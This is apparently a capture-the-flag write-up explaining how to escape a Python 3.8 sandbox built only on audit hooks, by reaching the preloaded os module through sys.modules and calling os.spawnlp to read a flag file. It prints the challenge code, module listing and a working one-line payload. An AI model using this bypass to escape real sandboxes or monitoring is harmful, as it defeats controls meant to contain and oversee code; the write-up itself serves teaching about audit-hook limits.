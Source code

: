 # PySand (sandbox, python, audithook, sys.modules)
Python 3.8 introduced new audithook feature. You can read more about it in [PEP 578](https://www.python.org/dev/peps/pep-0578/) and [PEP 551](https://www.python.org/dev/peps/pep-0551/). The idea was to increase the ability to monitor suspicious actions taken by attackers. Both documents emphasize that this feature should not be used as prevention mechanism:

```
This proposal does not attempt to restrict functionality, but simply exposes the
fact that the functionality is being used. Particularly for intrusion scenarios,
detection is significantly more important than early prevention (as early
prevention will generally drive attackers to use an alternate, less-detectable,
approach). The availability of audit hooks alone does not change the attack surface
of Python in any way, but they enable defenders to integrate Python into their
environment in ways that are currently not possible.
```

Moreover if you are asking yourself how do we implement sandbox in python, then the answer is simple – we don't. Python [documentation](https://python-security.readthedocs.io/security.html) is very strict about this:

```
Sandbox
Don’t try to build a sandbox inside CPython. The attack surface is too large. 
Python has many introspection features, see for example the inspect module. Python also 
many convenient features which executes code on demand. Examples:

the literal string '\N{Snowman}' imports the unicodedata module
the code to log a warning might be abused to execute code
The good design is to put CPython into a sandbox, not the opposite.
```

## Back to the challenge
In the challenge we are given a simple and at first glance very restrictive sandbox totaly based on audithooks. Every action which invokes audit event is being just stoped and SecurityError is being raised. Of course the challenge creator wanted to proof that audithooks really should not be used to sandbox applications.

```python3
#!/usr/bin/env python3.8
import sys

class SecurityError(BaseException):
    pass

def audithook(name, tupla):
    raise SecurityError("Hackers not allowed. Tried to perform {}".format(name))

sys.addaudithook(audithook)
```

You can read which actions invoke audit event [here](https://docs.python.org/3/library/audit_events.html#audit-events). The list is very short and so it is obvious that it doesn't even try to log every malicious action, but just the most suspicious ones. 

So I started looking at avaible functions in [sys](https://docs.python.org/3/library/sys.html) and [os.path](https://docs.python.org/3/library/os.path.html#module-os.path) and [builtins](https://docs.python.org/3/library/functions.html#built-in-funcs) modules. But I couldn't find anything useful which doesn't invoke audit event.

But then I though of [sys.modules](https://docs.python.org/3/library/sys.html#sys.modules). When python3 starts up it already imports more modules then our program. This is some optimization (I guess, I've never checked) mechanism. 
So lets check which modules have been loaded:

```console
$ nc ecsc19.hack.cert.pl 25011
Give me code:
print(sys.modules)
{'sys': <module 'sys' (built-in)>, 'builtins': <module 'builtins' (built-in)>, '_frozen_importlib': <module '_frozen_importlib' (frozen)>, '_imp': <module '_imp' (built-in)>, '_warnings': <module '_warnings' (built-in)>, '_frozen_importlib_external': <module '_frozen_importlib_external' (frozen)>, '_io': <module 'io' (built-in)>, 'marshal': <module 'marshal' (built-in)>, 'posix': <module 'posix' (built-in)>, '_thread': <module '_thread' (built-in)>, '_weakref': <module '_weakref' (built-in)>, 'time': <module 'time' (built-in)>, 'zipimport': <module 'zipimport' (frozen)>, '_codecs': <module '_codecs' (built-in)>, 'codecs': <module 'codecs' from '/app/Python-3.8.0b1/Lib/codecs.py'>, 'encodings.aliases': <module 'encodings.aliases' from '/app/Python-3.8.0b1/Lib/encodings/aliases.py'>, 'encodings': <module 'encodings' from '/app/Python-3.8.0b1/Lib/encodings/__init__.py'>, 'encodings.utf_8': <module 'encodings.utf_8' from '/app/Python-3.8.0b1/Lib/encodings/utf_8.py'>, '_signal': <module '_signal' (built-in)>, '__main__': <module '__main__' from '/app/sandbox.py'>, 'encodings.latin_1': <module 'encodings.latin_1' from '/app/Python-3.8.0b1/Lib/encodings/latin_1.py'>, '_abc': <module '_abc' (built-in)>, 'abc': <module 'abc' from '/app/Python-3.8.0b1/Lib/abc.py'>, 'io': <module 'io' from '/app/Python-3.8.0b1/Lib/io.py'>, '_stat': <module '_stat' (built-in)>, 'stat': <module 'stat' from '/app/Python-3.8.0b1/Lib/stat.py'>, 'genericpath': <module 'genericpath' from '/app/Python-3.8.0b1/Lib/genericpath.py'>, 'posixpath': <module 'posixpath' from '/app/Python-3.8.0b1/Lib/posixpath.py'>, 'os.path': <module 'posixpath' from '/app/Python-3.8.0b1/Lib/posixpath.py'>, '_collections_abc': <module '_collections_abc' from '/app/Python-3.8.0b1/Lib/_collections_abc.py'>, 'os': <module 'os' from '/app/Python-3.8.0b1/Lib/os.py'>, '_sitebuiltins': <module '_sitebuiltins' from '/app/Python-3.8.0b1/Lib/_sitebuiltins.py'>, 'site': <module 'site' from '/app/Python-3.8.0b1/Lib/site.py'>, '_locale': <module '_locale' (built-in)>, '_bootlocale': <module '_bootlocale' from '/app/Python-3.8.0b1/Lib/_bootlocale.py'>}
```

Nice! Definitely more then `sys`, `os.path` and `builtins`! What is interesting we can see that the `os` module has been imported as well.
By searching the [os](https://docs.python.org/3/library/os.html) documentation we can find many interesting functions such as `os.open`, `os.system` etc. Most of them are noisy and result in rasing audit event. However there are also function like `os.spawnlp` which we can use.

The last question is, how do we access the `os` module? If we try to call os.spawnlp we will fail. But the answer is very simple. Just reference `os` module via `sys.modules['os']`.

## POC

```console
$ nc ecsc19.hack.cert.pl 25011
Give me code:
sys.modules['os'].spawnlp(sys.modules['os'].P_WAIT, '/bin/cat', 'cat', '/app/flag.txt')
ecsc19{Aud1tButDontTrust}
```



## References:
1) https://docs.python.org/3/library/audit_events.html#audit-events
2) https://daddycocoaman.dev/posts/bypassing-python38-audit-hooks-part-1/
3) https://www.python.org/dev/peps/pep-0551/
3) https://www.python.org/dev/peps/pep-0578/